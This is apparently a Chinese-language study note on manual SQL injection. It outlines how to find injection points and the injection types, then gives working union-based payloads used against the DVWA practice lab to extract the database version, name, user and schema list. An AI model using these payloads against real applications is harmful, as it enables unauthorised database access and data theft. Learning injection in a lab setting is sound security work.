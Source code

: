 ![](http://qn.huat.xyz/content/20200512201452.png)

![](http://qn.huat.xyz/content/20200512201730.png)



![](http://qn.huat.xyz/content/20200512212415.png)



![](http://qn.huat.xyz/content/20200512213421.png)



### 手工注入流程

如何判断是否有注入点？？

猜字段---当前数据库---看表---找表的字段---找记录

报错注入： 输入 ‘  （单引号）报错，如果 不报错不能说明他没有注入点，如 基于时间的盲注

布尔注入：' or 1=1 

基于 union：

时间盲注： 





### 实战 DVWA

1、 查看数据库版本

```sql
' union select version(),2 #
```

![](http://qn.huat.xyz/content/20200512193431.png)

2、查看当前数据库名称

```sql
' union select database(),2 #
```



3、查看当前数据库用户名  user() 获取当前用户名

```sql
' union select 1,user() # 
```

![](http://qn.huat.xyz/content/20200512193508.png)

4、查看所有的数据库

```sql
' union SELECT TABLE_SCHEMA,2 FROM information_schema.TABLES -- 
```
